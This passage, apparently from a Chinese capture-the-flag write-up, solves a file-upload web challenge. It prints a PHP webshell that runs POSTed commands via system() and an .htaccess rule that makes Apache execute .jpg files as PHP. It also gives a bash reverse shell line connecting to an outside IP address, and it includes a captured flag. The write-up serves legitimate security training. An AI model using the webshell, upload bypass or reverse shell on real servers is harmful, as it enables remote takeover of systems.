 尝试撤销，恢复缓存区：

```bash
git stash pop
```

再次查看 `flag.txt` 得到 flag.

```plain
flag{Yesec#1s#c@ibi}
```

## WEB

### Give me your photo PLZ

我们按照网页的要求上传一张图片，发现图片被上传到网站的 `/upload` 目录中。

猜测是利用文件上传功能上传木马。我们随便传个 cpp 文件上去发现是上传成功的，但是随便上传一个 php 上去会返回 `上传木马可不是好习惯～～～`.

先构造一个木马文件，再想办法绕过：

```php
# webshell.php
<?php
highlight_file(__FILE__);
echo system($_POST['shell']);
```

利用 Burp 或 Fiddler 改包，修改 `Content-Type` 为 `image/jpeg` 后放行，但还是不成功。但是仅修改 `filename` 却可以，得知过滤机制为检测文件后缀名。

![Burp Try 1](https://image.cnily.top/blog/screenshot/give_me_your_photo_1.png?imageMogr2/format/webp)

![Burp Try 2](https://image.cnily.top/blog/screenshot/give_me_your_photo_2.png?imageMogr2/format/webp)

修改文件后缀为 `pht` `phtml` `pHp` 等都无法绕过，使用 Hex 再在 `.php` 后面插入 `%0A` 字符后也不管用。

![Burp Try 3](https://image.cnily.top/blog/screenshot/give_me_your_photo_3.png?imageMogr2/format/webp)

尝试利用解析绕过。

构造文件 `.htaccess`. 这将会使得 Apache 将 JPG 文件以 PHP 文件的方式解析：

```xml
<!-- .htaccess -->
<ifModule mime_module>
AddHandler php5-script .jpg
</ifModule>
```

上传成功！

再访问 `/upload/webshell.jpg`, 发现已经显示为 php.

我们不妨再上传一个 `bash.png` 内容如下：

```bash
bash -i &> /dev/tcp/47.97.152.130/54188 0>&1
```
